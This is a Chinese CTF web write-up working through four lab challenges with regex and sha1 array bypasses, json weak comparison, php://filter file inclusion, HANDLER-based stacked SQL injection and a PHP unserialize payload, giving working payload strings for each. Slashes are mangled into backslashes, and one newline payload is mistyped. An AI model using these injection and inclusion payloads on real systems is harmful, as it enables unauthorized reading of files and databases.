





# Web

## [鹤城杯 2021]Middle magic

>做题人：郑林均
>url链接：https:\www.nssctf.cn\problem\464
>知识点：弱比较，数组绕过

一段很长的源代码，一步一步分析
```php
<?php
highlight_file(__FILE__);
include ".\flag.php";
include ".\result.php";
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

    $aaa = preg_replace('\^(.*)level(.*)$\', '${1}<!-- filtered -->${2}', $_GET['aaa']);

    if(preg_match('\pass_the_level_1#\', $aaa)){
        echo "here is level 2";
        
        if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!<\p>';
        \ START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?";
                if (isset($_POST['level_3'])) {
                    $level_3 = json_decode($_POST['level_3']);
                    
                    if ($level_3->result == $result) {
                        
                        echo "success:".$flag;
                    }
                    else {
                        echo "you never beat me!";
                    }
                }
                else{
                    echo "out";
                }
            }
            else{
                
                die("no");
            }
        \ perform validations on the form data
        }
        else{
            echo '<p>out!<\p>';
        }

    }
    
    else{
        echo 'nonono!';
    }

    echo '<hr>';
} 
```
先看第一关
```php
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

    $aaa = preg_replace('\^(.*)level(.*)$\', '${1}<!-- filtered -->${2}', $_GET['aaa']);

    if(preg_match('\pass_the_level_1#\', $aaa)){
        echo "here is level 2";
```
因为该正则表达式有缺陷,^和$界定必须在同一行，而.并不能匹配换行符，所以这一关可以用%0a进行绕过，但是有问题，这样构造输出的还是nonono，查询发现如果直接传入#的话，#代表网页中的一个位置。其右面的字符，就是该位置的标识符，只有将#转码为%23，浏览器才会将其作为实义字符处理。
所以构造?aaa=%apass_the_level_1%23
来到第二关
```php
  if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!<\p>';
        \ START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?";
```
我们需要POST两个变量，admin和root_pwd。要求两个变量不能弱相等并且两个变量的sha1值强相等。
我们可以sha1强碰撞或者数组绕过。这里直接用数值绕过，构造：admin[]=1&root_pwd[]=2,接下来就是第三关了
```php
if (isset($_POST['level_3'])) {
                    $level_3 = json_decode($_POST['level_3']);
                    
                    if ($level_3->result == $result) {
                        
                        echo "success:".$flag;
                    }
```
要求POSTlevel_3使其弱比较和result弱相等，要求格式为json形式，对于一个json类型的字符串，会解密成一个数组；存在一个0=="efeaf"的Bypass缺陷”，所以可以直接构造level_3={"result":0}
得到flag


## [BSidesCF 2020]Had a bad day



点击一个发现会有category参数，有可能是伪协议，也可能是sql，先试一下伪协议
?category=php:\filter\convert.base64-encode\resource=index.php,发现不能访问，尝试把php去掉，得到代码
```
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```
发现只能访问这三个文件，而strops函数是用于查找一个字符串在另一个字符串中第一次出现的位置，所以我们必需输入woofers，mewers，index中一个， 这里是存在一个php特性，当我们在进行伪协议写入的时候，php会忽略没有含义的值。这样绕过了过滤。从而可以达到读取flag的目的，可以参考：https:\blog.51cto.com\u_15061934\4520192
也就是说当我们通过category去传入文件名的时候，category=woofers\flag的时候，index.php会在参数后面直接连接.php这个后缀，因此$file=woofers\flag.php，而在php中进行文件包含的时候会把woofers\给忽略掉，找到这个有意义的flag.php，从而到达利用php伪协议去读取flag.php的目的。所以可以试着传入category的参数为woofers\flag，但还是没有被读出来，看了wp才知道php有套协议
```
payload:         category=php:\filter\convert.base64-encode\woofers\resource=flag

这个伪协议套协议也就是去寻找woofers\flag，而前面说到php会忽略woofers所以这里就可以绕过index.php的过滤，从而读取到flag了

```

## [GYCTF2020]Blacklist 1详解（handler命令用法!)
>做题人：郑林均
>url链接：[[GYCTF2020]Blacklist](https:\buuoj.cn\challenges#[GYCTF2020]Blacklist)


可以发现是字符注入，
首先尝试堆叠注入
```
1';show databases#
```
发现有显示

继续查表名

>1';show tables#


发现FlagHere数据表，其中很有可能有flag
查字段数



>1'order by 3#


>1'order by 2#
发现字段数为2 
查FlagHere数据表的字段名


>1';show columns from words #

查words的字段名

输入rename发现有过滤
```php
return preg_match("\set|prepare|er|rename|select|update|delete|drop|insert|where|\.\i",$inject);
```
把rename和er、select都过滤了
handler命令查询规则

>handler table_name open;handler table_name read first;handler table_name close;
___
>handler table_name open;handler table_name read next;handler table_name close;

如何理解？

>首先打开数据库，开始读它第一行数据，读取成功后进行关闭操作。
首先打开数据库，开始循环读取，读取成功后进行关闭操作。

构造payload

>1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
1';handler FlagHere open;handler FlagHere read next;handler FlagHere close;


## [ZJCTF 2019]NiZhuanSiWei

>做题人：郑林均
>url链接：[NiZhuanSiWei](https:\www.nssctf.cn\problem\22)
>知识点：php伪协议

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."<\h1><\br>";
    if(preg_match("\flag\",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  \useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```
分析代码可知首先我们要利用伪协议传入welcome to the zjctf到text上，所以构造
```
!?text=data:\text\plain,welcome to the zjctf
```
来到下个页面

又因为之前提醒了又useless.php，所以现在用伪协议构造尝试访问一下
```
&file=php:\filter\read=convert.base64-encode\resource=useless.php
```
出现一段编码
```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```
用base64解码得到一段php代码
```php
<?php  

class Flag{  \flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !\COME ON PLZ");
        }  
    }  
}  
?>  

```
有点看不懂，看wp说接下来是构造poc，但我不是很懂怎么构造，和前辈借一下
```
<?php  
 
class Flag{  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !\COME ON PLZ");
        }  
    }  
}  
$password = new Flag();
echo serialize($password);
?> 
```
输出
```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```
构造
```
&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

|郑林均|20|100|

